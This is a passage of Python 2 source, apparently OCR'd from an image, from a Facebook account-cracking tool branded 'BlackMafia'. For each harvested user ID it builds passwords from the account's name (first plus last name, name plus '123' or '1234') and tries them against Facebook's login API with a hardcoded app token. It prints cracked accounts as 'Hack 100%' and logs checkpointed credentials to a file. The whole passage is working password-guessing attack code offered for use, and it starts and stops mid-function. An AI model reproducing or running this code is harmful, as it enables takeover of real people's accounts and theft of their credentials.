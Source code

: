 			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	
	print "\033[1;97mTotal IDs\033[1;97m: \033[1;94m"+str(len(id))
	jalan('\033[1;94mPlease Wait\033[1;94m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;94mCloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m«--•◈••◈•---\x1b[1;94m•◈•Stop Process Press CTRL+Z•◈•\033[1;97m---•◈••◈•-»"
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;94mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	jalan(' \033[1;97m.................\033[1;94mCloning Start..\033[1;97m............ ')
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;94mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + b['last_name']
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = j['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '1234'